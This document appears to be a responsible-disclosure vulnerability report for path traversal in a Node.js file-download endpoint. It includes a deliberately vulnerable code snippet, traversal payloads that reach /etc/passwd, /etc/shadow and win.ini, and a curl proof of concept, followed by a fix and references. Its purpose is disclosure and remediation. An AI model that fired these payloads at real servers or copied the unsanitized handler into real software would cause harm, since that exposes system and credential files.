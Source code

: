# 🐞 Path Traversal (Path Injection) Vulnerability Report

---

## 📌 Title

**Path Traversal in File Download Endpoint via `filename` Parameter**

---

## 📝 Description

A **Path Traversal** vulnerability was discovered in the file handling logic of the application. The vulnerability allows an attacker to read arbitrary files from the server by manipulating file paths using sequences like `../`.

This occurs due to improper sanitization of user-controlled path input, allowing attackers to escape the intended directory and access sensitive files such as `/etc/passwd`, `web.config`, or `.env`.

---

## 🌐 Affected Endpoint

- **URL**: `https://vulnerable-website.com/download?file=report.pdf`
- **Method**: `GET`
- **Vulnerable Parameter**: `file`

---

## ⚙️ Vulnerable Code Snippet (Node.js Example)

```javascript
// ❌ Vulnerable code
app.get('/download', (req, res) => {
    const filePath = path.join(__dirname, 'files', req.query.file);
    res.sendFile(filePath); // No sanitization
});
```

---

## 🧪 Steps to Reproduce

### ✅ Pre-requisites

- Use Burp Suite, browser, or curl

---

### 🔁 Step-by-Step Exploitation

#### Step 1: Access normal file (for reference)

```http
GET /download?file=report.pdf
```

✅ Returns: `report.pdf` from `/files/` directory

---

#### Step 2: Attempt path traversal

```http
GET /download?file=../../../../etc/passwd
```

#### Step 3: Observe response

✅ Returns: contents of `/etc/passwd`

You may try platform-specific paths:

- Windows: `../../../../windows/win.ini`
- Linux: `../../../../etc/shadow` (may be permission-restricted)

---

## 💣 Proof of Concept (PoC)

```bash
curl "https://vulnerable-website.com/download?file=../../../../etc/passwd"
```

```plaintext
root:x:0:0:root:/root:/bin/bash
...
```

---

## 🔥 Security Impact

- Unauthorized access to system files
- Leakage of credentials/configs (`.env`, `config.json`, `db.sqlite`, etc.)
- Information disclosure
- Local file inclusion in some environments (may lead to RCE)

---

## 🔧 Recommended Remediation

- Normalize and validate paths before use
- Enforce a whitelist of allowed filenames
- Prevent `..`, `~`, or absolute path inputs

### ✅ Secure Fix Example

```javascript
const path = require('path');
const safeBase = path.join(__dirname, 'files');
const requestedPath = path.normalize(path.join(safeBase, req.query.file));

if (!requestedPath.startsWith(safeBase)) {
    return res.status(400).send('Invalid file path');
}

res.sendFile(requestedPath);
```

---

## 🔐 Security Best Practices

- Never trust user input for file paths
- Implement input validation and sanitization
- Log abnormal access patterns
- Disable directory listing on the web server
- Restrict file permissions (e.g., use non-root users)

---

## 🧾 References

- [OWASP Directory Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [CWE-22: Improper Limitation of a Pathname to a Restricted Directory](https://cwe.mitre.org/data/definitions/22.html)
- [Node.js Path Traversal Guide](https://blog.doyensec.com/2021/08/30/nodejs-path-traversal.html)

---

## 📅 Report Date

**2025-06-17**

---

## 🧑‍💻 Reported By

- **Security Researcher**: raghav  
- **Tools Used**: Burp Suite, curl, manual analysis  
- **Severity**: **High**

---

> ⚠️ This issue is shared under responsible disclosure. Please review and confirm. I kindly request acknowledgment or reward consideration if the issue is valid.
